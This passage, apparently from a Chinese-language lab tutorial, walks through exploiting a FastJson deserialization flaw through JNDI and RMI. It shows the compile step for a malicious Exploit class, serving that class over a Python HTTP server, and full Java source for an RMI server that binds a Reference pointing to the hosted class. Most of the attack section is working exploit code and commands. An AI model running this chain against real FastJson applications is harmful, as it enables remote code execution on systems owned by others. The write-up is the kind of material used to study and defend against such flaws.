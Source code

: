 ```java
        return null;
    }
}
```

编译：`javac Exploit.java`

获取到`Exploit.class`

1. 将恶意类托管到http远程服务
    
    ```java
    python3 -m http.server
    ```
    
    ![image.png](FastJson%2025a8cda31fb4807b88fcf6f20f13552f/image%201.png)
    
2. 启动RMI服务器
    
    `RMIServer.java`
    
    ```java
    import com.sun.jndi.rmi.registry.ReferenceWrapper;
    import javax.naming.Reference;
    import java.rmi.registry.LocateRegistry;
    import java.rmi.registry.Registry;
    
    public class RMIServer {
        public static void main(String[] args) throws Exception {
            // 1. 在1099端口上创建RMI注册中心
            Registry registry = LocateRegistry.createRegistry(1099);
    
            // 2. 创建一个Reference，指向托管在HTTP服务器上的恶意类
            //    参数: ClassName, ClassFactory, Codebase URL
            Reference ref = new Reference("Exploit", "Exploit", "http://127.0.0.1:8000/");
    
            // 3. 将Reference对象绑定到RMI注册中心，名称为"badClassName"
            registry.bind("badClassName", new ReferenceWrapper(ref));
    
            // 让主线程保持运行，否则程序会立即退出
            System.out.println("RMI server is running...");
            Thread.currentThread().join();
        }
    }
    ```
    
    ```java
    javac RMIServer.java
    java RMIServer
    ```
    
    ![image.png](FastJson%2025a8cda31fb4807b88fcf6f20f13552f/image%202.png)
    
3. 执行`APP.java`
    
    ![image.png](FastJson%2025a8cda31fb4807b88fcf6f20f13552f/image%203.png)
    